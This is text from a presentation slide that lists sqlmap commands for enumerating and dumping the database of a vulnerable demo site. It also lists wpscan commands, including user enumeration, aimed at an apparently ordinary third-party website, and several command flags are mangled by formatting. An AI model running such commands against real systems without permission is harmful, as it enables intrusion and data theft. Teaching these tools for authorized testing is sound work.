

# Implementation Commands
Sql map
Sqlmap –u http://testphp.vulnweb.com/artists.php?artists=1 - -dbs
Sqlmap –u http://testphp.vulnweb.com/artists.php?artists=1 –D acuart - -tables
Sqlmap –u http://testphp.vulnweb.com/artists.php?artists=1 –D acuart –T users –columns
Sqlmap –u http://testphp.vulnweb.com/artists.php?artists=1 - -dump
Wpscan
Wpscan - -url http://www.torrontostandard.com
Wpscan - -url http://www.torrontostandard.com/ -e u